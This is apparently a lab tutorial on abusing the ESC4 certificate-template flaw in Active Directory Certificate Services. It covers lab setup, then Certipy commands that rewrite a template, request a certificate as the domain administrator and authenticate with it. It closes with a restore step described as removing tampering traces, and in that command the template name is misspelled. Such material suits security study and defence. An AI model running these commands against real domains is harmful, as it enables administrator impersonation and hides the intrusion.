



# 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 4 (ESC4) Abuse Guide


A misconfigured **ESC4 certificate template** can allow low-privileged users to **modify the template settings** and convert it into a vulnerability like **ESC1**, **ESC2**, or **ESC3**. This can ultimately lead to requesting a certificate as a **Domain Administrator**.

###  Vulnerable Permissions

If a domain user has **any of the following permissions** over a certificate template:

- `Owner`  
- `WriteOwnerPrincipals`  
- `WriteDaclPrincipals`  
- `WritePropertyPrincipals`

They can abuse the template to escalate privileges.

##  Setting Up the ESC4 Misconfiguration (Lab Environment)

To simulate or test the ESC4 misconfiguration in a lab setup:

### 1. Create a New Certificate Template

- Open **Certificate Authority** → Manage → Certificate Templates.
- Duplicate an existing template (e.g., "User") and name it something like **ESC4**.

### 2. Modify the Following Settings:

####  Disable Manager Approval
- Navigate to the **Issuance Requirements** tab.
- Uncheck **"Manager approval"**.



####  Permissions (Security Tab)
- Grant **Domain Users** or **Authenticated Users** the following permissions:
  - **Owner**
  - **WriteOwner**
  - **WriteDacl**
  - **WriteProperty**



> These permissions allow low-privileged users to modify the template, potentially making it exploitable as ESC1, ESC2, or ESC3.

### 3. Enable and Publish the Template
- Go to the CA console.
- Right-click **Certificate Templates** → **New** → **Certificate Template to Issue**.
- Select your **ESC4** template to publish it.


##  Key Conditions for ESC4 Exploitation


### 1️⃣ No Manager Approval Required

- The **Manager Approval** setting is **disabled**, meaning certificate requests are automatically issued without administrative oversight.

> **ESC4 Condition #1:** **Manager approval is not required**

---


### 2️⃣ Template is Published and Enabled

- The template is **enabled and published** by the Certificate Authority (CA), making it available for enrollment.

> **ESC4 Condition #2:** Template is **live and enabled**

---

### 3️⃣ Dangerous Template Permissions

The following permissions are misconfigured on the certificate template, enabling further abuse:

- `Owner`: Low-privileged user or group owns the template
- `WriteOwnerPrincipals`: Can change ownership of the template
- `WriteDaclPrincipals`: Can modify permissions (ACLs)
- `WritePropertyPrincipals`: Can change template properties (like EKU or SAN config)

> **ESC4 Condition #3:** Dangerous template ACLs:  
> `Owner`, `WriteOwnerPrincipals`, `WriteDaclPrincipals`, `WritePropertyPrincipals`

---




##  ESC4 Downgrade to ESC1 Exploitation via Certipy

##  Attack Summary

Certipy can exploit **ESC4** by **modifying the vulnerable certificate template** and turning it into an **ESC1-equivalent**. This is done by editing the template configuration to allow **arbitrary SANs** and **disable approval mechanisms**, enabling direct impersonation attacks.

---

##  Step-by-Step Exploitation

### 1️⃣ Backup the Template and Apply Exploit Config

We use Certipy to modify the template configuration. The `-save-old` flag **backs up the original template** and **applies the changes automatically**:

```bash
certipy-ad template -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template Vulnerable-ESC4 -target furious.local -save-old
```

✅ This makes the **ESC4 template behave like ESC1**, enabling low-privileged users to request certificates for **any user** by manipulating the SAN field.

---

### 2️⃣ Request a Certificate as a Privileged User

Now, exploit the modified template to impersonate a high-privileged account (e.g., `administrator@furious.local`):

```bash
certipy-ad req -ca furious-DC01-FURIOUS5-CA -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template Vulnerable-ESC4 -target furious.local -upn administrator@furious.local
```

 This issues a valid certificate for the **administrator**, which can be used to request a **Kerberos TGT** and elevate privileges.

---

### 3️⃣ Restore the Original Template Configuration

Once exploitation is complete, you can **restore the original template configuration** using the backup created earlier:

```bash
certipy-ad template -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template Vulnerble-ESC4 -target furious.local -configuration Vulnerble-ESC4.json
```

This reverts the template to its **original state**, removing any tracks of tampering.

---

###  Authenticate with the Certificate

```bash
certipy-ad auth -pfx administrator.pfx
```

## ⚠️ Important Notes

- Always use `-save-old` to **preserve the original configuration**.
- Modifying templates typically requires **WriteDacl or WriteProperty** permissions.
- This attack effectively converts an **ESC4 misconfiguration** into an **ESC1 full impersonation scenario**.

---

